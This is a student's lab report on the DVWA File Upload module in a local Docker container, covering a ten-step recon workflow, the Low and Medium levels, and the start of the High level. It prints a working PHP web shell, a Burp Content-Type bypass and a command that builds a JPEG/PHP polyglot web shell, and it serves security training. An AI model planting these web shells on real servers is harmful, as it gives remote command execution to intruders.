RECON WORKFLOW & FILE UPLOAD EXPLOITATION

DVWA File Upload: From Low to Impossible

A practical walkthrough of unrestricted file upload, client-side validation bypass, and content-based defences, against DVWA running in a local Docker container

| Field | Details |
| --- | --- |
| Programme | Digital Forensic & Cyber Security |
| Cohort | PSEB-Cyber-ISB-01 (PSEB-CYB-ISB-01) |
| Student name | Musab Ahmad |
| Roll / ID | PSEB-2026-017582 |
| Date performed | 17 November 2026 |
| Course reference | DFCS Day 6 (Recon Workflow and File Upload Exploitation) |
| Lab environment | Kali Linux (VMware Workstation) running DVWA via Docker (vulnerables/web-dvwa), target http://127.0.0.1 |

# 1. Introduction and scope

This report covers the two remaining parts of the Day 6 assignment: a customised ten-step reconnaissance workflow, and a full walkthrough of the DVWA File Upload module at all four difficulty levels (Low, Medium, High, Impossible). A one-page, non-technical remediation brief closes the report.

Environment note. The course handout assumes Metasploitable 2 as the target. No such VM was available in this lab, so DVWA was run directly inside the Kali VM using Docker (vulnerables/web-dvwa image), reachable at http://127.0.0.1. This changes the target address used throughout (127.0.0.1 instead of a Metasploitable IP) but not the technique: DVWA's PHP source is identical.

Authorisation and ethics. DVWA is a deliberately vulnerable application built for this exact purpose, and it was run entirely inside the student's own Kali VM. No system outside the student's own machine was touched. Uploading an attacker-controlled file to any system the student does not own, or has not been contracted to test, is a criminal offence under the Prevention of Electronic Crimes Act 2016 in Pakistan and comparable legislation elsewhere.

# 2. My recon workflow (Task: your own ten-step workflow — 35%)

The ten-step workflow from the Day 6 handout was followed, with some tool substitutions based on what was available and what was learned during the Day 5 OSINT exercise (WHOIS, Subfinder, theHarvester, assetfinder and amass). The table states, for each step, the question it answers, the tool used, what it produced, and when to stop.

| # | Question | Tool / command | Output | Stopping condition |
| --- | --- | --- | --- | --- |
| 1 | Who owns this domain, and when was it created? | whois <domain> | Registrar, creation/expiry date, name servers | Once registrar and name servers are recorded; no need to repeat |
| 2 | Where does the domain point (mail, hosting)? | dig A, dig MX, dig NS, dig TXT | IP addresses, mail servers, DNS provider, SPF/DKIM hints | Once each record type returns an answer or a confirmed empty result |
| 3 | What subdomains exist? | Subfinder, assetfinder, amass (passive), theHarvester — four tools, not one, because each draws on different sources (see Day 5 report) | A de-duplicated candidate hostname list | When adding a fifth tool stops finding new unique names (diminishing returns) |
| 4 | Which candidates are actually live? | httpx-toolkit -l list.txt -ip -sc -title | A resolved, deduplicated list with status codes and titles | Once every candidate has been checked, not just the promising-looking ones |
| 5 | What is open on each live host? | nmap -p- $TARGET (not just the default 1,000 ports — Day 2 showed a backdoor service can sit outside that range) | A port and service inventory | When a full scan (-p-) has run at least once per host |
| 6 | What is the site built with? | whatweb -v $TARGET | Server software, PHP version, CMS/framework and plugin hints | Once the structured output names the stack; re-run only if the server header changes |
| 7 | What is hidden but not linked? | gobuster dir -u $TARGET -w common.txt -x php,txt,bak,zip | Hidden paths, backup files, config directories | When the wordlist is exhausted at a reasonable rate limit |
| 8 | What endpoints exist across the app? | katana -u $TARGET -d 2 | A crawled URL inventory | At crawl depth 2–3; deeper rarely adds value and risks leaving scope |
| 9 | What input does each endpoint accept, and what is poorly protected? | ffuf -u $TARGET/FUZZ -w common.txt -rate 25, DVWA's own File Upload module explored manually | Parameters, hidden paths, and — in this case — the one finding this report documents in full | Once a serious finding (such as the upload module) is found, switch from fuzzing to manual exploitation of that finding |
| 10 | What is misconfigured, and how severe is it overall? | curl -I, nikto -h $TARGET, manual review of DVWA source via view_source.php | Server/version disclosure, CVSS-rated findings, a reproducible proof of concept | When every finding has a severity, a proof of concept, and a remediation |

## 2.1 Tool choice I made differently from the session, and why

The session's workflow names a single subdomain tool at step 3. I used four (Subfinder, assetfinder, amass passive, theHarvester) and took their union, because a direct comparison on vulnweb.com during the Day 5 exercise showed almost no overlap between tools: out of 616 total name reports across the four tools, only 17 were found by more than one tool. A workflow that stops after one tool would have missed the overwhelming majority of what the other three found. I treat "run one more tool" as worthwhile until the marginal tool stops contributing new unique names, rather than stopping at a fixed count.

# 3. DVWA File Upload: full walkthrough (Task: upload walkthrough — 40%)

## 3.1 Environment set-up

No Metasploitable VM was available, so DVWA was run as a Docker container on the Kali VM itself:

sudo apt install -y docker.io

sudo systemctl start docker && sudo systemctl enable docker

sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa

The container starts MariaDB and Apache internally and exposes port 80 on the Kali VM itself, so the application is reached at http://127.0.0.1. The database was initialised at http://127.0.0.1/setup.php ("Create / Reset Database"), then logged into at /login.php with the default credentials admin / password.

## 3.2 Low level: unrestricted upload to immediate RCE

Security level was set to Low via the DVWA Security tab.




*Figure 1: Security level set to Low*

A legitimate image was uploaded first, to confirm the mechanism works and to learn the storage path, before attempting anything else:




*Figure 2: Baseline upload: a genuine JPEG, confirming the storage path ../../hackable/uploads/*

A minimal PHP web shell was then written:


*Figure 3: shell.php content, as created in nano*

```php
<?php
// Educational PoC Web Shell (DVWA Low Level)
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
``` — this reads a query parameter called cmd and passes it to system(), which runs it on the server and returns the output.




*Figure 4: shell.php uploaded with no validation at Low level*

With the file in place, commands were executed through the URL:




*Figure 5: GET /hackable/uploads/shell.php?cmd=id → uid=33(www-data) gid=33(www-data) groups=33(www-data)*




*Figure 6: cmd=whoami → www-data*




*Figure 7: cmd=hostname → the container's hostname*




*Figure 8: cmd=ip a → confirms the container's network interfaces*

These four commands establish the facts a report needs: the privilege level (www-data, not root), the account name, the host identity, and the network position. www-data is the Apache service account — this is a real compromise, but the report must state the actual privilege obtained rather than imply administrative control.

## 3.3 Medium level: bypassing a client-supplied MIME type with Burp Suite




*Figure 9: Security level set to Medium*

Medium checks the MIME type the browser declares for the upload. Uploading shell.php unmodified is refused:




*Figure 10: Upload refused at Medium: "Your image was not uploaded. We can only accept JPEG or PNG images."*

Burp Suite was configured as an intercepting proxy (listener on 127.0.0.1:8080) and Firefox's manual proxy settings pointed at it. Because Firefox never proxies connections to 127.0.0.1 by design, the about:config flag network.proxy.allow_hijacking_localhost had to be set to true before traffic to the DVWA host (itself on 127.0.0.1) would route through Burp — a detail specific to testing a target on the same loopback address as the proxy.




*Figure 11: Burp Proxy listener confirmed on 127.0.0.1:8080*

With Intercept switched on, the upload of shell.php was repeated. The captured request shows the declared type on the line immediately below the filename:




*Figure 12: Intercepted POST request: Content-Type: application/x-php on the uploaded file part*

That one line was edited to Content-Type: image/jpeg and the request forwarded:




*Figure 13: The Content-Type line changed to image/jpeg before forwarding*


*Figure 14: Server accepts the upload once the declared type matches an image: ../../hackable/uploads/shell.php succesfully uploaded!*




*Figure 15: GET /hackable/uploads/shell.php?cmd=id after the Medium bypass → uid=33(www-data) — identical result to Low*

The lesson that generalises. The MIME type in a multipart upload is written by the browser, which is under the tester's control via a proxy. Any check that trusts a client-supplied value — the declared Content-Type, a hidden form field, a JavaScript check — is not validation; it is a convenience for a well-behaved client, and invisible to an attacker with Burp in the loop.

## 3.4 High level: content inspection defeats the Medium bypass, but execution is not achieved




*Figure 16: Security level set to High*

High inspects the file content rather than the declared type. Repeating the exact same Burp bypass (editing Content-Type to image/jpeg) this time fails:




*Figure 17: The same Content-Type bypass rejected at High: the server is now checking the content, not the declared type*

Per the Day 6 handout, the standard bypass for a content check is a polyglot: a file that is simultaneously a valid image and valid PHP, built by appending PHP code after a genuine JPEG's end-of-image marker, where an image parser stops reading but a PHP interpreter would not.

cp test.jpg mal.jpg

printf '<?php /* Lab PoC */ system($_GET["cmd"]); ?>' >> mal.jpg

file mal.jpg   # still reports: JPEG image data


